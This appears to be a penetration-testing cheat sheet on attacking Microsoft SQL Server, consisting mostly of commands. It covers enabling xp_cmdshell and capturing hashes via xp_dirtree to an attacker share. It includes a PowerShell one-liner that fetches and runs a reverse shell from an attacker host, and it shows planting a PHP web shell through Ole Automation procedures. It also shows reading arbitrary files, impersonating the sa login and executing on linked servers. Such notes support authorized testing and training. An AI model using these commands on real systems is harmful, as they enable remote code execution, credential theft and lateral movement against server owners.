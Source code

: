 # MSSQL

```
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

`MSSQL` default system schemas/databases:

* `master` - keeps the information for an instance of SQL Server.
* `msdb` - used by SQL Server Agent.
* `model` - a template database copied for each new database.
* `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
* `tempdb` - keeps temporary objects for SQL queries.

## Login it to mssql remotely

```
sqsh -S $ip -U sa -P <PASSWORD>
```

alternatively use

```
mssqlclient.py user:password@$ip -windows-auth
```

or without --windows-auth

```
mssqlclient.py user:password@$ip
```

## Interactive with MSSQL

Check for users with SA level permissions (users that can enable xp\_cmdshell)

```
select IS_SRVROLEMEMBER ('sysadmin')
```

Run after spinning up an smbserver to capture hash

```
exec master..xp_dirtree '\\<attacker ip>\<share name>\',1,1
GO
```

```
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```

**Check if xp\_cmdshell is enabled**

```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

**Show Advanced Options**

```
sp_configure 'show advanced options', '1'
```

```
RECONFIGURE
```

**Enable xp\_cmdshell**

```
sp_configure 'xp_cmdshell', '1'
```

```
RECONFIGURE
```

```
EXEC master..xp_cmdshell 'whoami'
```

{% code overflow="wrap" %}
```
xp_cmdshell powershell iex(new-objectnet.webclient).downloadstring(\"http://AttackerIP/Invoke-PowerShellTcp.ps1\")
```
{% endcode %}



## Enable File Write (Ole Automation Procedures)

{% code overflow="wrap" %}
```
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>To write files using <code>MSSQL</code>, we need to enable <a href="https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option">Ole Automation Procedures</a>, which requires admin privileges, and then execute some stored procedures to create the file</p></figcaption></figure>

## Write File

<pre data-overflow="wrap"><code><strong>DECLARE @OLE INT
</strong>DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '&#x3C;?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
</code></pre>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Read File

{% code overflow="wrap" %}
```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>By default, <code>MSSQL</code> allows file read on any file in the operating system to which the account has read access</p></figcaption></figure>

### Impersonate Existing Users

**Identify Users that We Can Impersonate**

{% code overflow="wrap" %}
```
select distinct b.name from sys.server_permissions a inner join sys.server_principals b on a.grantor_principal_id = b.principal_id where a.permission_name = 'IMPERSONATE'
GO
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption><p>SQL Server has a special permission, named <code>IMPERSONATE</code>, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends. Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned.</p></figcaption></figure>

**Verifying our Current User and Role**

{% code overflow="wrap" %}
```
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption><p>the returned value <code>0</code> indicates, we do not have the sysadmin role, but we can impersonate the <code>sa</code> user</p></figcaption></figure>

**Impersonating the SA User**

{% code overflow="wrap" %}
```
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p> It's recommended to run <code>EXECUTE AS LOGIN</code> within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using <code>USE master</code>We can now execute any command as a sysadmin as the returned value <code>1</code> indicates.</p></figcaption></figure>

### Communicate with Other Databases with MSSQL

**Identify linked Servers in MSSQL**

<pre class="language-cmd-session"><code class="lang-cmd-session"><strong>SELECT srvname, isremote FROM sysservers
</strong>GO
</code></pre>

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>If we manage to gain access to a SQL Server with a linked server configured, we may be able to move laterally to that database server. Administrators can configure a linked server using credentials from the remote server. If those credentials have sysadmin privileges, we may be able to execute commands in the remote SQL instance. As we can see in the query's output, we have the name of the server and the column <code>isremote</code>, where <code>1</code> means is a remote server, and <code>0</code> is a linked server</p></figcaption></figure>

{% code overflow="wrap" %}
```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption><p>Attempt to identify the user used for the connection and its privileges. The <a href="https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql">EXECUTE</a> statement can be used to send pass-through commands to linked servers. If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).</p></figcaption></figure>

